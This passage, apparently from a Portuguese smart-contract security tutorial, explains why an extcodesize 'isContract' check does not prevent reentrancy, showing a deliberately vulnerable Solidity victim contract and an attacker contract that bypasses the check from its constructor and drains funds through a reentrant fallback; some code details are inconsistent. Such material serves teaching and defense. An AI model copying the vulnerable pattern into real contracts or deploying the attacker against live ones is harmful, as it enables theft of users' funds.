 Alguém poderia considerar vencer a reentrada, simplesmente impedindo qualquer contrato inteligente de interagir com o seu código. Você busca no stackoverflow, e encontra esse trecho de código com toneladas de votos:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Parece fazer sentido: os contratos têm código, se o autor da chamada tiver qualquer código, não permita que ele faça um depósito. Vamos adicionar:

```solidity
// ESTE CONTRATO TEM VULNERABILIDADE INTENCIONALMENTE, NÃO COPIE
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Agora, para depositar ETH, você não deve ter o código do contrato inteligente no seu endereço. No entanto, isso é facilmente derrotado com o seguinte contrato do Atacante:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
